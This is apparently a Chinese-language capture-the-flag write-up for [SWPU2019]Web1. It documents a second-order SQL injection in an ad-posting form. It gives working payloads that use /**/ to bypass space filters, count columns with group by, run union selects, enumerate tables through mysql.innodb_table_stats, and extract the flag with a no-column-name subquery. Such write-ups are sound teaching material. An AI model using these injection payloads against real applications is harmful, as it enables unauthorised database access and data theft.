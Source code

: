 # [SWPU2019]Web1

## 知识点

`sql注入`

`无列名注入`

`二次注入`

`mysql.innodb_table_stats`

## 解题

首先有个登录注册，我注册了一个`admin'`，然后在首页也没发现注入这个地方的点

继续查看`申请发布广告`这部分发现了二次注入，在发布广告页面的广告名有`sql`注入，点进去看广告详情的时候发生`二次注入`

首先闭合`sql`语句,发现`--` `--+` `#`都被过滤，注释符行不通，我们使用`'`闭合

因为`空格`和`order`被过滤，判断列数使用`group/**/by`

```
title='group/**/by/**/23,'&content=123&ac=add
```

在第`23`开始报错，说明有`23`列，联合注入看回显位置

```sql
title=-2'union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'&content=123&ac=add
```

![](./img/[SWPU2019]Web1-10.png)

在`2`,`3`处回显，查一下数据库

```sql
title=-2'union/**/select/**/1,2,database(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'&content=123&ac=add
```

![](./img/[SWPU2019]Web1-5.png)

发现数据库名为`web1`，查一下表名,因为`or`被过滤，无法查`information_schema`，用`mysql.innodb_table_stats`

```sql
title=-2'union/**/select/**/1,2,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'&content=123&ac=add
```

![](./img/[SWPU2019]Web1-6.png)

因为无法查列名，只能使用`无列名注入`,一个个查，最后查到`users`中存在`flag`

```sql
title=-2'union/**/select/**/1,2,(select/**/group_concat(`3`)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'&content=123&ac=add
```

![](./img/[SWPU2019]Web1-9.png)